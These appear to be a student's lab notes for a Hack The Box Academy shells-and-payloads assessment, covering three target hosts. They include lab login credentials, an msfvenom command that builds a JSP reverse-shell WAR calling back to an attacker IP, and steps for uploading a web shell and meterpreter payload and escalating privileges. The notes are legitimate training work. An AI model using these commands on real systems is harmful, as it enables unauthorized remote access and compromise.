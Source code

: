 ## Objectives:

- Demonstrate your knowledge of exploiting and receiving an interactive shell from a `Windows host or server`.
- Demonstrate your knowledge of exploiting and receiving an interactive shell from a `Linux host or server`.
- Demonstrate your knowledge of exploiting and receiving an interactive shell from a `Web application`.
- Demonstrate your ability to identify the `shell environment` you have access to as a user on the victim host.

# Connection
---
`xfreerdp /v:10.129.204.126 /u:htb-student /p:HTB_@cademy_stdnt!`

# Targets
---
![[Pasted image 20250625065605.png]]

# Host 1
---
- Default credentials for `Manager`given, login on tomcat with those
- Make msfvenom reverse shell war file and upload:
	- `msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.1.7 lport=1234 -f war > shell.war`
- Run listener and get shell 
- https://www.hackingarticles.in/tomcat-penetration-testing/

# Host 2
---
- Exploit given on blog
- Convert the ruby to python code using ChatGPT
- Make few modifications to include Pentest Monkey's reverse shell
- [[Code for Facebook Style Blog (host-2)]]
- ![[Pasted image 20250626075457.png]]
- ![[Pasted image 20250626075507.png]]

# Host 3 
---
- Upload antak.aspx shell
- Upload shell.exe meterpreter from msfvenom
- Execute meterpreter payload from antak.aspx and get shell
- Run local exploit suggester to find reflection_juicy attack
- Run it to gain system shell
- ![[Pasted image 20250627063735.png]]
